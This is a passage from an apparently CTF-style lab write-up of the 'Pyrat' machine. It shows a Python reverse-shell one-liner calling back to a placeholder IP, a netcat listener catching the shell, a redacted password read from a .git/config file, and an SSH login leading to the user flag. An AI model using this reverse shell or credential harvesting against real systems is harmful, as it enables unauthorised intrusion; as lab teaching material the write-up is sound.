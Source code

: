 ````plaintext
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<IP>",<PORT>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")
````
Ensuring a seamless connection back to my listener.

````bash
nc -lvnp 9999
listening on [any] 9999 ...
connect to [XX.XX.XX.XXX] from (UNKNOWN) [XX.XX.XXX.XX] 50544
bash: /root/.bashrc: Permission denied
www-data@Pyrat:~$ ls
````

With further digging, I discovered a password hidden within the `/opt/dev/.git/config` file.
````bash
www-data@Pyrat:~$ cat /opt/dev/.git/config
[core]
        repositoryformatversion = 0
        filemode = true
        bare = false
        logallrefupdates = true
[user]
        name = Jose Mario
        email = josemlwdf@github.com

[credential]
        helper = cache --timeout=3600

[credential "https://github.com"]
        username = think
        password = [REDACTED]
````     
---
## SSH
Using the extracted password, I successfully established an `ssh` connection as the user think.

````bash   
ssh think@pyrat.thm
think@pyrat.thm's password:
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-150-generic x86_64)

  System information as of Wed 12 Feb 2025 01:53:03 PM UTC

  System load:  0.08              Processes:             133
  Usage of /:   46.8% of 9.75GB   Users logged in:       0
  Memory usage: 49%               IPv4 address for eth0: 10.10.186.245
  Swap usage:   0%

You have mail.
think@Pyrat:~$ cat user.txt
[REDACTED]
````
Once inside, I navigated through the system files and captured the **user flag**, marking the first milestone. However, the root flag was still out of reach, requiring further privilege escalation to gain full control over the machine.

---